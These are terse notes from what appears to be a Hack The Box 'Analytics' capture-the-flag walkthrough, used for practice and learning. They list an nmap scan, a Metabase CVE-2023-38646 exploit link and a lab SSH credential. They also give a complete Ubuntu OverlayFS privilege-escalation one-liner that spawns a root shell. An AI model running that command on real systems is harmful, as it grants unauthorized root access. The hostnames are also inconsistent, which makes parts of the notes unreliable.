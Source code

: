 # #1 Introduction

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx analytics.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

bootstrap metabase : 	"v0.46.6"

https://github.com/robotmikhro/CVE-2023-38646

in env variables, id to ssh
metalytics
An4lytics_ds20223#

/etc/nginx/sites-enabled/data.analytical.htb

╔══════════╣ Checking if containerd(ctr) is available
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/containerd-ctr-privilege-escalation                                                  
ctr was found in /usr/bin/ctr, you may be able to escalate privileges with it                                                                      
ctr: failed to dial "/run/containerd/containerd.sock": connection error: desc = "transport: error while dialing: dial unix /run/containerd/containerd.sock: connect: permission denied"

╔══════════╣ Checking if runc is available
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation                                                            
runc was found in /usr/bin/runc, you may be able to escalate privileges with it 

# #4 root.txt
https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'


https://www.hackthebox.com/achievement/machine/458711/569

